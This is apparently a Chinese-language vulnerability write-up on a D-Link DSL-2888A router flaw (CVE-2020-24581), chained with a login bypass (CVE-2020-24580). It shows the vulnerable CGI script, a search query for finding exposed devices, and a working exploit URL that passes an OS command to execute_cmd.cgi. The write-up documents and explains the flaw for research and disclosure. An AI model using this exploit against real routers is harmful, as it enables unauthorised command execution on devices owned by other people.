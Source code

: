 # D-Link DSL-28881A 远程命令执行 CVE-2020-24581

# D-Link DSL-28881A 远程命令执行 CVE-2020-24581

## 漏洞描述

D-Link DSL-2888A AU_2.31_V1.1.47ae55之前版本存在安全漏洞，该漏洞源于包含一个execute cmd.cgi特性(不能通过web用户界面访问)，该特性允许经过身份验证的用户执行操作系统命令。
在该版本固件中同时存在着一个不安全认证漏洞（CVE-2020-24580），在登录界面输入任意密码就可以成功访问路由器界面。

## 漏洞影响

```
D-Link DSL-2888A
```

## 网络测绘

```
body="DSL-2888A"
```

## 漏洞复现

登录页面输入任意密码建立连接

![](/images/202202162221283.png)

跳转到 http://xxx.xxx.xxx.xxx/page/login/login.html?error=fail 显示密码错误

漏洞出现在 **execute_cmd.cgi** 文件中

```bash
#!/bin/sh
. /usr/syscfg/api_log.sh

cmd=`echo ${QUERY_STRING} | cut -d = -f 3`
cmd=`echo ${cmd} | tr "%20" " "`

result=`${cmd}`
TGP_Log ${TGP_LOG_WARNING} "cmd=${cmd}, result=${result}"

echo "Content-type: text/html"
echo ""
echo -n ${result}
```

这里取出 **${QUERY_STRING}** 中的第二个参数值，然后去除空格命令执行

在这个过程中并没有过滤，看一下参数从哪来的

文件 **/www/js/ajax.js**

```javascript
get : function(_dataType)
	{
		var _url = this.url;
		if(_url.indexOf('?') == -1)
			_url += '?timestamp=' + new Date().getTime();
		else
			_url += "&timestamp=" + new Date().getTime();
		if(this.queryString.length > 0)
			_url += "&" + this.queryString;

		this.xmlHttp.open("GET", _url, true);
		/* will make IE11 fail.
		if(!document.all){
			if(_dataType == "xml")
				this.xmlHttp.overrideMimeType("text/xml;charset=utf8");
			else
				this.xmlHttp.overrideMimeType("text/html;charset=gb2312");//设定以gb2312编码识别数据  
		}
		*/
		this.xmlHttp.send(null);
	},
```

看一下过程

```shell
┌──(root)-[/tmp]
└─# echo "timestamp=1589333279490&cmd=whoami" |  cut -d = -f 3
whoami
```

这里取第二个参数 **whoami** 然后就没有过滤的执行了

所以EXP为:

```plain
http://xxx.xxx.xxx.xxx/cgi-bin/execute_cmd.cgi?timestamp=test&cmd=whoami
```

![](/images/202202162221670.png)

